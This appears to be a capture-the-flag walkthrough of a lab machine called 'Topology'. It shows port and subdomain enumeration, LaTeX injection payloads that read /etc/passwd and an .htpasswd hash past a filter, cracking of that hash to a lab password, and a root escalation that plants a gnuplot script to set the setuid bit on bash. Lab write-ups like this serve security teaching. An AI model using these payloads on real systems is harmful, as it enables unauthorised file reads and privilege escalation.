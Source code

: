 # Topology

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.76.27 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-11 23:49 +08
Nmap scan report for 10.129.76.27
Host is up (0.012s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

HTTP exploits it seems.&#x20;

### LaTeX Project --> LFI

The website is seems to be a university website:

<figure><img src="../../../.gitbook/assets/image (8) (10).png" alt=""><figcaption></figcaption></figure>

There's a LaTeX Equation Generator available. LaTeX is a software made for documentation, and I'm roughly familiar with how it works to make mathematical equations for stuff like university math module notes. Anyways, we have to add `latex.topology.htb` to our `/etc/hosts` file to visit the `equation.php` site available.&#x20;

On the site itself, it just shows some basic LaTeX syntax:

<figure><img src="../../../.gitbook/assets/image (702).png" alt=""><figcaption></figcaption></figure>

There are some exploits available pertaining to Latex Injection, such as being able to read machine files. I tried to use `\input{/etc/passwd}` to read files, but there's a WAF blocking it:

<figure><img src="../../../.gitbook/assets/image (690).png" alt=""><figcaption></figcaption></figure>

I tested different payloads, and eventually found one that worked on this site:

{% embed url="https://0day.work/hacking-with-latex/" %}

```latex
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

Using this, we can get the first line of the `/etc/passwd` file:

<figure><img src="../../../.gitbook/assets/image (6) (12).png" alt=""><figcaption></figcaption></figure>

Before carrying on, I wanted to some proper web enumeration to find out what I was supposed to do with this LFI. Using `wfuzz`, I found a `dev` subdomain:

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.topology.htb" --hc=200 -u http://topology.htb
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://topology.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000019:   401        14 L     54 W       463 Ch      "dev"
```

This returns a 401, and visiting it requires credentials:

<figure><img src="../../../.gitbook/assets/image (460).png" alt=""><figcaption></figcaption></figure>

This is a HTTP sign in, meaning we can probably find the credentials in a `.htpasswd` file somewhere. Also, it coincides with the one-line LFI that we have. However, the same command does not work with the `/var/www/dev/.htpasswd` file, which is definitely where the password hash is stored.

In this case, what we can do is try to use other commands, like `\lstinputlisting`. However, this payload doesn't work:

```latex
\lstinputlisting{/var/www/dev/.htpasswd}
```

It doesn't work (as I've learnt) because the machine asks for **LaTeX inline math mode.** There are different modes for LaTeX present, and they would parse characters differently. If we use '$' signs, we can force the machine to process our query by switching mode for it.&#x20;

{% embed url="https://tex.stackexchange.com/questions/410863/what-are-the-differences-between-and" %}

If we use `\\lstinputlisting{/var/www/dev/.htpasswd}` instead, we see that it processes it as text:

<figure><img src="../../../.gitbook/assets/image (465).png" alt=""><figcaption></figcaption></figure>

So by using `$\lstinputlisting{/var/www/dev/.htpasswd}$`, it would be processed as an expression (similar to `$()` in bash) and loads the hash:

<figure><img src="../../../.gitbook/assets/image (2) (12).png" alt=""><figcaption></figcaption></figure>

We can crack the hash easily with `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (vdaisley)     
1g 0:00:00:04 DONE (2023-06-12 00:30) 0.2375g/s 236511p/s 236511c/s 236511C/s calebd1..caitlyn09
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Then we can access the `dev` subdomain:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

More importantly, we can access the user via `ssh`:

<figure><img src="../../../.gitbook/assets/image (1) (13).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### GNUPlot

Within the `/opt` directory, there was a `gnuplot` file present:

```
vdaisley@topology:/opt$ ls
gnuplot
vdaisley@topology:/opt$ ls -al
total 12
drwxr-xr-x  3 root root 4096 May 19 13:04 .
drwxr-xr-x 18 root root 4096 May 19 13:04 ..
drwx-wx-wx  2 root root 4096 Jun  6 08:14 gnuplot
```

I also ran a `pspy64` while searching more about this particular software, and found some interesting processes:

```
2023/06/11 12:35:01 CMD: UID=0    PID=2774   | /usr/sbin/CRON -f 
2023/06/11 12:35:01 CMD: UID=0    PID=2773   | /usr/sbin/CRON -f 
2023/06/11 12:35:01 CMD: UID=0    PID=2776   | /bin/sh /opt/gnuplot/getdata.sh 
2023/06/11 12:35:01 CMD: UID=0    PID=2775   | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/06/11 12:35:01 CMD: UID=0    PID=2781   | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;                                                                           
2023/06/11 12:35:01 CMD: UID=0    PID=2787   | gnuplot /opt/gnuplot/loadplot.plt 
2023/06/11 12:35:01 CMD: UID=0    PID=2786   | sed s/,//g 
2023/06/11 12:35:01 CMD: UID=0    PID=2785   | 
2023/06/11 12:35:01 CMD: UID=0    PID=2782   | find /opt/gnuplot -name *.plt -exec gnuplot {} ;                                                                                           
2023/06/11 12:35:01 CMD: UID=0    PID=2788   | gnuplot /opt/gnuplot/networkplot.plt 
```

We don't have read access to the directory, but we have write access, meaning we have to manipulate the `.plt` files present on the `/opt` directory to somehow achieve RCE as `root`. Or, we can just add another `.plt` file.&#x20;

I found a resource that shows the `system` keyword can be used to execute system commands:

{% embed url="http://www.bersch.net/gnuplot-doc/system.html" %}

We just need to create a `priv.plt` file within the directory:

```
system "chmod u+s /bin/bash"
```

Then, we can just wait for `root` to execute our new file and privesc that way:

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;

